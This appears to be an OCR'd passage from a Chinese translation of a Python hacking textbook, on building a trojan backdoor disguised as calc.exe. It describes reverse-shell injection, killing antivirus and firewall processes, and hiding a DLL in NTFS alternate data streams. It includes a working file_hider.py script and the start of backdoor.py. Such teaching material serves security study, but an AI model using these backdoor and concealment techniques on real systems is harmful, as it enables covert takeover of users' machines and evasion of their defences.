 ## 7.2 邪恶的代码

现在让我们本着学以致用的目的，用注入搞点好玩的东西。我们将创造一个后门程序， 将它命名为一个系统中正规的程序（比如 calc.exe）。只要用户执行了 calc.exe，我们的后门

就能获得系统的控制权。cacl.exe 执行后，就会在执行后门代码的同时，执行原先的 calc.exe （之前我们的后门命名成 calc.exe，将原来的 cacl.exe 移到别的地方）。当 cacl.exe 执行后， 通过注入，反弹一个 shell 到我们的机器上，最后我们再注入 kill 代码，杀死前面运行的程 序。

等一等！我们难道不能直接结束 calc.exe 吗？简单地说，可以。但是终止进程对于后门 来说是一项很关键的技术。比如，你能通过枚举进程，找出杀毒软件和防火墙的的进程，然 后简单的杀死。或者你也能，通过上一章学到的注入技术，在离开前杀死进程。技术不止一 种，选择合适的是最重要的。

最后我们还会介绍如何将 Python 脚本编译成一个单独的 Windows 可执行文件，以及如 何偷偷的加载 DLL。接下来先看看如何将 DLL 隐藏起来。

### 7.2.1 文件隐藏

我们的后门会做成 DLL 的形式，为了能够它安全点，得用一些秘密的方法将它藏起来。 我们能够用捆绑器，将两个文件（其中包括我们的 DLL）捆绑起来，不过 WE ARE Python Hacer,当然得有点不一样了。

OS 就是我们最好的老师，NTFS 同样提供了很多强大而隐秘的技巧，今天我们就用 alternate data streams (ADS)。从 Windows NT 3.1 开始就有了这项技术，目的是为了和苹果 的系统 Apple heirarchical file system (HFS)进行通讯。ADS 允许硬盘上的一个文件，能够 将 DLL 储存在它的流中，然后附加到主进程执行。流就是隐藏的文件，但是能够被附加到任 何在硬盘上能看得到的文件。

使用流隐藏的文件，不用特殊的工具是看不见的。目前很多安全工具也还不能很好的扫 描 ADS，所以用此逃避追捕是非常理想的。

在一个文件上使用 ADS，很简单，只要在文件名后附加双引号，接着跟上我们想隐藏 的文件。

```py
reverser.exe:vncdll.dll 
```

在 这 个 例 子 中 我 们 将 vncdll. dll 附 加 到 reverser.exe 中 。 下 面 写 个 简 单 的 脚 本 file_hider.py，就当的读取文件然后写入指定文件的 ADS。

```py
#file_hider.py import sys
# Read in the DLL
fd = open( sys.argv[1], "rb" ) 
dll_contents = fd.read() 
fd.close()
print "[*] Filesize: %d" % len( dll_contents )
# Now write it out to the ADS
fd = open( "%s:%s" % ( sys.argv[2], sys.argv[1] ), "wb" ) 
fd.write( dll_contents )
fd.close() 
```

很简单，第一个传入的参数就是我们想隐藏的 DLL，第二参数就是目标文件。用这个 工具我们就能够很方便的，通过写入流的方式，将我们的文件和目标文件结合在一起。

### 7.2.2 编写后门

让我们构建我们的重定向代码，只要简单的启动指定名字的程序就行了。之所以叫执行 重定向，是因为我们将后门的名字命名为 calc.exe 了还将原来的 calc.exe 移动到了别的地方。 当用户测试执行计算器的时候，就会不经意的执行了我们的后门，后门程序通过重定向代码， 启动真正的计算器。用户会看不到任何邪恶的东西，依旧正常的使用计算器。下面的脚本引 用了第三章的 my_debugger_defines.py，其中包含了创建进程所需要的结构和常量。

```py
#backdoor.py
# This library is from Chapter 3 and contains all
# the necessary defines for process creation 
import sys
from ctypes import *
from my_debugger_defines import *
kernel32 = windll.kernel32 
PAGE_EXECUTE_READWRITE = 0x00000040 
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
# This is the original executable
path_to_exe = "C:\\calc.exe"
startupinfo = STARTUPINFO() 
process_information = PROCESS_INFORMATION() 
creation_flags = CREATE_NEW_CONSOLE 
```